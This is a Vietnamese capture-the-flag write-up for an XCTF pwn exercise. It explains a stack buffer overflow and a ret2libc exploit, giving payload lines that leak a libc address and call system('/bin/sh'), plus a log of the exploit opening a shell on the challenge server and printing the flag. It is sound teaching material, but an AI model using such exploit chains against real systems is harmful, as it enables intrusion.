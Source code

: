 # XCTF - PWN Exercise - level3

```c
#include<stdio.h>

ssize_t vulnerable_function()
{
  char buf[136]; // [esp+0h] [ebp-88h] BYREF

  write(1, "Input:\n", 7u);
  return read(0, buf, 0x100u);
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
  vulnerable_function();
  write(1, "Hello, World!\n", 0xEu);
  return 0;
}
```

Kiếm tra các flag secure trước.

```
l1j9m4 in ~/0_PWNable/ADworld_XCTF/Exersice/5_level3 λ checksec level3   
[*] '/home/l1j9m4/0_PWNable/ADworld_XCTF/Exersice/5_level3/level3'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Chương trình rất đơn giản, biến `buf` có 136 kí tự nhưng hàm `read` cho phép đọc 256 kí tự input và chương trình cũng không có flag secure `Canary` => có thể stack buffer overflow để lấy shell tương tác trên server. Chúng ta sẽ dùng phương pháp `ret2libc` vì không có functions nào của chương trình cho phép có shell hay là đọc flag trên server.

Những bài sử dụng kỹ thuật `ret2libc` thường sẽ leak địa chỉ của libc bằng hàm `write` hoặc hàm `puts` rồi sau đó tính toán `offset` và địa chỉ của các hàm liên quan đến lấy shell tương tác như: `địa chỉ cơ sở của libc`, `system`, chuỗi `"/bin/sh"`,... do địa chỉ tương đối giữa các hàm trong libc là cố định (khoảng cách giữa các hàm).

Để lấy địa chỉ của hàm `system` của bài này, ta có thể sử dụng hàm `write()` để thực hiện tính toán offset. 

   1. Đầu tiên sử dụng hàm write() để tính địa chỉ thực của hàm `write()` được chương trình lưu trong `GOT` (kiến thức liên quan đến liên kết động thư viện libc của file ELF). 
   
   2. Sử dụng khoảng cách tương đối giữa các hàm để tính địa chỉ thực của `system` và `"/bin/sh"`.

=> Đối với cuộc tấn công đầu tiên, chúng ta sử dụng tràn ngăn xếp để làm rò rỉ địa chỉ thực của hàm write() trong bảng GOT, sau đó trừ đi phần bù trong libc để lấy địa chỉ cơ sở của libc. 

```
payload1 = 'A' * 0x88 + p32 (0xdeadbeef) + p32 (write_plt) + p32 (main_addr) + p32 (1) + p32 (write_got) + p32 (0xdeadbeef)
```

=> Cuộc tấn công thứ hai sẽ quay lại functions `main`, vượt qua tràn ngăn xếp một lần nữa và sử dụng chức năng `system` tính toán được để `get shell` :p.

```
payload2 = 'A' * 0x88 + p32 (0xdeadbeef) + p32 (sys_addr) + p32 (0xdeadbeef) + p32 (bin_sh_addr)
```

Việc tính toán một số địa chỉ liên quan qua địa chỉ của hàm `write` leak được. Địa chỉ được tính như sau:

|   Địa chỉ các hàm   |          Tính toán                                                     |
|   :-------------:   | :--------------------------------------------------------------------: |
|      libc_addr      | (địa chỉ write lưu tại GOT của write) - (offset của write so với libc) |
|     system_addr     | libc_addr + (offset của system so với libc)                            |
|     bin_sh_addr     | libc_addr + (offset của chuỗi "/bin/sh" so với libc)                   |

### NOTE:
      
      +) (địa chỉ write lưu tại GOT của write) - leak được.
      
      +) (offset của write so với libc) - tính toán thông qua libc được đề cho.
      
      +) (offset của write so với libc) - tính toán thông qua libc được đề cho.
      
      +) (offset của write so với libc) - tính toán thông qua libc được đề cho.
      
Phần này mình sẽ trình bày câu lệnh bằng comment code trong file `exploit.py`.

Tiến hành viết file [exploit.py](exploit.py) và khai thác:

```
l1j9m4 in ~/0_PWNable/ADworld_XCTF/Exersice/5_level3 λ python2 exploit.py
[+] Opening connection to 111.200.241.244 on port 51341: Done
('Write_got address is', '0xf76e13c0')
('libc address is', '0xf760d000')
('system address is', '0xf7647940')
('/bin/sh address is', '0xf776602b')
[*] Switching to interactive mode
Input:
$ ls
bin
dev
flag
level3
lib
lib32
lib64
$ cat flag
cyberpeace{30760e28dd5d22b93e22a2d89a7113b9}
$  
```
